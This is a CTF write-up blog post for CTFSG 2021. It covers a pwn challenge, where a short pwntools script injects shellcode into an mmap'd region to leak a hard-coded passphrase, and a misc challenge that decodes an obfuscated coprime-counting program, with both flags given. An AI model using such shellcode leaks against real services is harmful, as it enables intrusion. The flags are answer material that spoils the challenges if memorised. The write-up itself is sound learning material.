 ```yaml
---
layout: post
title:  "CTFSG 2021"
date:   2021-03-14
categories: writeups
---
```


1 week, 1 CTF, 3 weeks straight. These CTFs just keep coming, don't they?

Interestingly the three CTFs were also arranged in order of increasing perceived difficulty, which was nice but also terrible at the same time because I had some trouble pulling my weight in this particular CTF in terms of points.

The CTF.SG CTF is the first open CTF event hosted by the CTF.SG team in Singapore, and was DEFINITELY not catered towards JC students. :P

Nevertheless, (not) my (usual) team managed to achieve a respectable 2nd place in this CTF!

![](/assets/Images/CTF-SG/scoreboard.png)


# Writeups
Below are some of my writeups for this CTF:
1. [(Pwn) XMM](#XMM)
2. [(Misc) Fourpass](#fourpass)

## XMM

```Help Kenneth get the xmm!```

### Disclaimer
This challenge was done after the CTF because [ariana](https://ariana1729.github.io/) too fast.

### Reconnaissance
We are greeted by a binary with the following checksecs:

![](/assets/Images/CTF-SG/pwn-xmm/checksec.png)

,does the following:

![](/assets/Images/CTF-SG/pwn-xmm/xmm_main.png)

and has two interesting functions:

![](/assets/Images/CTF-SG/pwn-xmm/xmm_answer.png)

_This one checks for some kind of constant passphrase, which is stored here:_

![](/assets/Images/CTF-SG/pwn-xmm/xmm_favorite.png)

So the challenge seems pretty straightforward which was probably why it was blitzed.

### Vulnerability analysis
- Passphrase is evidently not randomised. 
    - Opens up the possibility of a leak.
- `mmap64()` basically gives us a huge area with which to write **arbitrary** shellcode. 
    - We can leak passphrase with some (hopefully not painful) shellcoding.
- `answer()` prints flag. 
    - So we're going there.

### Script
There is honestly not much else to say. This challenge is pretty straightforward and I can probably only fault myself for not having opened it at all.

```python
from pwn import *
context.log_level='DEBUG'
r = remote('chals.ctf.sg', 20401)
r.recvuntil("┃ ┃             ")
r.sendline("newfonewhodis")
r.sendline(asm(shellcraft.write(1,0x49501d,13)))
string=r.recvall()[:-13]

r = remote('chals.ctf.sg', 20401)
r.recvuntil("┃ ┃             ")
r.sendline(string)
```

And thus we receive the flag: 

`CTFSG{xmm_hunter_1337}`

... What a creepy challenge.

## Fourpass
```This is my response to a certain telco’s OnePass. I call it “Fourpass” (because it takes *four* inputs instead of *one*). I don’t think it’ll get accepted because it is so slow though...```

### Reconnaissance

We are given what appears to be a `token`, which I surmised to be some kind of binary. Until...

![](/assets/Images/CTF-SG/misc-token/tokenfile.png)

... That was pretty dumb.

Now that we've ascertained that the file is just Python code, we will simply beautify and rewrite said code:

```python
#!/usr/bin/python3.8
a, b, c, d = list(map(int, input().split()))

gcd=lambda f: lambda x,y: x if not y else f(y,x%y)

print(
    sum( # Sums them up???
        filter(
            lambda x: x==1, 
            # Finds all values within here that are 1.
            map( 
                # x below is val_1 and val_2 as a tuple.
                lambda x:(lambda f:(lambda z:z(z))(lambda z:f(lambda *y: z(z)(*y)))) 
                # z(z) is recursion.
                    (gcd)(*x), 
                    # Again, val_1,val_2 (something)(gcd(f,x))
                    [(val_1, val_2) for val_1 in range(a, b) for val_2 in range(c, d)] 
                    # All possible tuples of f and x.
            )
        )
        )
)# Verdict: We count the number of coprime tuples in a<=val_1<b,c<=val_2<d
```

And thus we make the following deductions:
- `gcd` is well... gcd. (Extracted from that ugly thing in the middle.)
- Iterating through some set of tuples, we are retrieving the gcd... and?
- `lambda z: z(z)` must be recursion. Unexpected [linguistics](https://allthingslinguistic.com/post/95678520747/the-lambda-calculus-for-absolute-dummies-like).
- As I have already annotated above, the program counts the number of coprime tuples in `a<=val_1<b,c<=val_2<d`.
    - This is not difficult to see as we can rewrite the whole function inside the `map()` as:
    ```python
    print(sum(filter(lambda x: x==1,map(gcd,[(val_1, val_2) for val_1 in range(a, b) for val_2 in range(c, d)]))))
    ```

However, this is not the main challenge, sadly for me.

### The Real Challenge: nc chals.ctf.sg 15201

Where I **REALLY** got stuck was this part, where you receive `enormous numbers` and this happens:



The existing program was too inefficient to actually do its job in this particular context.

Naturally, seeing a pattern, I was inclined to think of it as a problem involving `Euler's Totient Function`.
But [ariana](https://ariana1729.github.io/) finished up with his challenge and shifted his attention to this particular challenge.
That was very good for me since I can't function at night.

See his writeup [here](https://ariana1729.github.io/writeups/CTFSG/FourPass/2021-03-14-FourPass.html).

... And then I woke up to the flag!

Flag: `CTFSG{c_4_c0pR1me_Int3geRs}`